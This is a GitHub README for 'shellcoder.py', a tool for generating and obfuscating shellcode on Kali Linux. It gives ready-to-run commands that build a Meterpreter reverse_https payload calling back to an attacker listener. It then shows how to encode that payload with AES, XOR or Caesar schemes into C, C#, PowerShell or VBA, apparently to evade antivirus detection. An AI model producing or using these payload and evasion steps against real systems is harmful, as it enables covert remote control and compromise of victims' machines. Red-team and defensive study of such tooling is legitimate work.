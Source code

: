 # shellcoder.py
A tool I wrote to ease the process of shellcode generation and obfuscation!

## Getting Started
This tool has some dependencies that may need to be installed. It was written and tested on Kali Linux 2021.4 so most of the dependencies are already pre-installed. In the event you are using an older version or non-Kali install, you can get started by running the following commands:
```bash
sudo python3 -m pip install -r requirements.txt
```
This tool is depenedent on msfvenom to generate raw shellcode files. If the Metasploit Framework is not installed on your system, here are the commands you will need to run to install it:
```bash
wget http://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
```
```bash
sudo chmod +x ./metasploit-latest-linux-x64-installer.run
```
```bash
sudo ./metasploit-latest-linux-x64-installer.run
```
## Generating shellcode
One of the main reasons I developed this tool was to automate the process of generating shellcode for both Windows and Linux using msfvenom. To generate shellcode you can run shellcoder.py with the -l flag to set the listening host, the -p flag to set the listening port, the -t flag to set the payload type, and most importantly the -g or --generate flag. Alternatively, you can can just run shellcoder.py with the -g or --generate flag and it will use the following default values:

- PAYLOAD=windows/x64/meterpreter/reverse_https
- LHOST=tun0
- LPORT=443
- OUTFILE=/tmp/raw_sc

Some example commands that can be used to generate shellcode with shellcoder.py are as follows:
```bash
python3 shellcoder.py -l tun0 -p 443 -t windows/x64/meterpreter/reverse_https -o raw_sc --generate
```

<p align="center">
<a href="/img/gen1.png"><img src="/img/gen1.png"></a>
 </p>
 
```bash
python3 shellcoder.py --generate
```

<p align="center">
<a href="/img/gen2.png"><img src="/img/gen2.png"></a>
 </p>

 ## Encoding shellcode
 There are a couple options to can use to encode shellcode in different formats. Here is a list of formats the shellcode can be encoded with:

- clang_aes
- clang_caesar
- clang_xor
- csharp_aes
- csharp_caesar
- csharp_xor
- ps1_aes
- ps1_caesar
- ps1_xor
- vba_aes
- vba_caesar
- vba_xor

To generate shellcode with shellcoder.py, you can supply the -e flag with the encoder type. Optionally you can specify the input and output files with the -i and -o flags, respectively. If you do not specify an input file, shellcoder.py will look for the raw shellcode file located at /tmp/raw_sc. Here are some example commands that can be used to encode your shellcode:
```bash
python3 shellcoder.py -e chsarp_xor -i raw_sc -o enc_sc.txt
```

<p align="center">
<a href="/img/enc1.png"><img src="/img/enc2.png"></a>
 </p>
 
 ```bash
python3 shellcoder.py -e csharp_xor -i raw_sc
 ```
 
 <p align="center">
<a href="/img/enc2.png"><img src="/img/enc2.png"></a>
 </p>
 
 ```bash
python3 shellcoder.py -e csharp_xor
 ```

 These are just a few examples of how raw shellcode files can be encoded. You can see the help page for more options with the following command:
```bash
python3 shellcoder.py -h
```
